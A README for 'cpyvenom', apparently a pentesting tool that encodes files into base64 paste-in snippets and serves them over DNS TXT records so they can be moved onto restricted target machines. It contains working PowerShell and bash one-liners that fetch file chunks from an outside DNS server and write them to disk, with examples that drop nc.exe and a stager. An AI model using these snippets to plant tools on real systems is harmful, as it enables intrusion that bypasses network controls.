  ## Script to transfer files with a copy/paste from terminal when only few options are available




### Added DNS Upload

Added the possibility to upload file through DNS TXT record requests, the script will open a mini-dns server to serve the file in base64 chunks inside parametrized TXT-record response.

**Prerequisites:**
* **The port must be reachable from the internet**
* **To listen on port 53 you will need to execute the script as root.**
* **it depends on dnslib**  

<br />
<br />

 
* Yet another pentesting script

* It converts a target file to transfer in base64 rows and generates convenient output


```
..######..########..##....##.##.....##.########.##....##..#######..##.....##
.##....##.##.....##..##..##..##.....##.##.......###...##.##.....##.###...###
.##.......##.....##...####...##.....##.##.......####..##.##.....##.####.####
.##.......########.....##....##.....##.######...##.##.##.##.....##.##.###.##
.##.......##...........##.....##...##..##.......##..####.##.....##.##.....##
.##....##.##...........##......##.##...##.......##...###.##.....##.##.....##
..######..##...........##.......###....########.##....##..#######..##.....##

    
Transfer files with a simple copy/paste from terminal when no other options are available


Usage: cpyvenom.py -p <payload> -i <inputfile> -d <destination> -o <save_to_outputfile> -b 100 

Available commands:

    -p / --payload          windows/powershell, windows/certutil, linux/bash, linux/python, 
                            dns/powershell, dns/bash

    -i / --input-file       file path to send

    -o / --output-file      save the encoded output to file, default to stdout

    -d / --destination      destination path in the remote system

    -b / --block            size of the block

    ____________________________________

    Arguments that work only on dns payloads:

    -P / --port             the DNS Server listening port
    
    --udp /--tcp            Connection method
    
    --dns-ip                dns domain or IP address to query
    
    --sleep                 delay between requests (seconds, default 1)
    
    --no-server             print the snippet without setup the listening server


    Example:

        windows:
            python3 cpyvenom.py -i nc.exe -o nc.cpyvenom -p windows/powershell -d "C:\\temp\\nc.exe"

        linux:
            python3 cpyvenom.py -i /bin/nc -o nc.cpv -p linux/bash -d /tmp/nc


    DNS payload Examples:
        
        windows:
            sudo python3 cpyvenom.py -p dns/powershell --input-file=nc.exe -d "c:\\temp\\nc.exe"  --dns-ip=192.168.1.254 --port=53 
        
        linux:
            sudo python3 cpyvenom.py -p dns/bash --input-file=stager -d "/tmp/stager"  --dns-ip=192.168.1.254 --port=53
        


```


Example:

```

python3 cpyvenom.py -p windows/powershell -i simpleapp.exe -d c:\\temp\\simpleapp.exe
Input file is  simpleapp.exe
Output file is StdOut
Payload  windows/powershell
Destination c:\temp\simpleapp.exe

Copy from here:

$FilePath="c:\temp\simpleapp.exe"
$EncodedString =  '' 
$EncodedString+="TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA4AAAAA4fug4AtAnNIbgB" 
$EncodedString+="TM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4gaW4gRE9TIG1vZGUuDQ0KJAAAAAAAAABMzsLOCK+snQivrJ0Ir6ydWsepnBCv" 
$EncodedString+="rJ1ax6icBa+snVrHrZwNr6ydHMStnAyvrJ0Ir62dWK+sna3GqZwJr6ydrcZTnQmvrJ2txq6cCa+snVJpY2gIr6ydAAAAAAAAAABQ" 
$EncodedString+="RQAATAEJAH3RQGAAAAAAAAAAAOAAAgELAQ4QAHIAAABKAAAAAAAAnRMBAAAQAAAAEAAAAABAAAAQAAAAAgAABgAAAAAAAAAGAAAA" 
$EncodedString+="AAAAAAAgAgAABAAAAAAAAAMAQIEAABAAABAAAAAAEAAAEAAAAAAAABAAAAAAAAAAAAAAACjSAQBkAAAAAAACADwEAAAAAAAAAAAA" 
$EncodedString+="AAAAAAAAAAAAABACACgEAAAApQEAOAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADilAQBAAAAAAAAAAAAAAAAA0AEAKAIAAAAA" 
            --- cut ----
$EncodedString+="cD94P5Q/nD/oP/Q/ALABABQAAABUMFgwdDB4MJQwmDAA8AEADAAAAAAwAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" 
$EncodedString+="AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" 
$EncodedString+="AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" 
$EncodedString+="AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA=" 
$ByteArray = [System.Convert]::FromBase64String($EncodedString);
[System.IO.File]::WriteAllBytes($FilePath, $ByteArray);

```

DNS upload the file README.md to a linux machine example:
```
sudo python3 cpyvenom.py -p dns/bash --input-file=README.md -d "/tmp/README.md"  --dns-ip=192.168.1.254 --port=53
Input file is  README.md
Output file is  StdOut
Payload  dns/bash
Destination /tmp/stager
Preparing file chunks...

Copy from here:

**********

for n in $(seq 0 30);do echo "dig txt +short c$n @192.168.1.254  & sleep 1" ;done | sh | tr -d '"' | base64 -d > /tmp/README.md

**********

Starting nameserver...^C to stop.

```



DNS upload the file nc.exe to a windows machine example:
```
sudo python3 cpyvenom.py -p dns/powershell --input-file=nc.exe -d "c:\\temp\\nc.exe"  --dns-ip=192.168.1.254  --port=53
Input file is  nc.exe
Output file is  StdOut
Payload  dns/powershell
Destination c:\temp\nc.exe
Preparing file chunks...

Copy from here:

**********

$FilePath="c:\temp\nc.exe"
$EncodedString =  '' 
for ($num = 1 ; $num -le 10 ; $num++){$current='c'+$num.ToString()+'.com'; $EncodedString+=(Resolve-DnsName $current -Server 192.168.1.254 | Select-Object -Property Strings ).Strings ;Start-Sleep -s 1 };
$ByteArray = [System.Convert]::FromBase64String($EncodedString);
[System.IO.File]::WriteAllBytes($FilePath, $ByteArray);

**********

Starting nameserver...^C to stop


```


Once the mini-DNS server has started, paste the 'for' snippet to remote machine, it will download the file with concatenating of TXT-record base64 encoded response




Credits:
https://stackoverflow.com/questions/16977588/reading-dns-packets-in-python
https://floatingpoint.sorint.it/blog/post/introduction-to-dns-exfiltration-and-infiltration






